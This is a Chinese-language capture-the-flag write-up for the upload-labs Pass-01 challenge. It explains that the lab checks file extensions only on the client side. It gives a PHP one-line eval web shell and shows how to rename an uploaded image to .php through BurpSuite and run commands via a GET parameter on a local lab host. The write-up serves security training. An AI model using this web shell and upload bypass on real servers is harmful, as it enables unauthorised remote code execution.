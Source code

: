 ## [[upload-labs](https://github.com/c0ny1/upload-labs)] [[Pass 01 - File Extension](http://127.0.0.1/Pass-01/index.php)] [[解题报告](https://exp-blog.com/safe/ctf/upload-labs/pass-01-file-extension/)]

------

## 题目

```php
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    //提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    //判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```

------

## 解题

从源码很明显可以知道，代码只对上传的 **文件名后缀** 做检验，因此可以 **从客户端绕过** 。

伪造一个图片文件，文件名为 `payload.png` ，内容为 PHP 的一句话木马 ：

```php
<?php eval(@$_GET['exp']); ?>
```

上传此文件后，因为文件后缀为 `.png` ，所以即使打开图片也无法解析 PHP 代码。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/upload-labs/Pass-01/imgs/01.png)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/upload-labs/Pass-01/imgs/02.png)


要绕过其实很简单，只需要用 BurpSuite 拦截上传文件的 POST 请求，然后修改 POST 内容中的文件名，把 `payload.png` 修改成 `payload.php` （注意 `Content-Type` 要确保为图片类型）。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/upload-labs/Pass-01/imgs/03.png)

上传成功后，访问改名后的 `payload.php` 文件，并利用一句话木马执行 `phpinfo();` 命令：

```html
http://127.0.0.1/upload/payload.php?exp=phpinfo();
```

解析 `phpinfo();` 命令成功，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/upload-labs/Pass-01/imgs/04.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
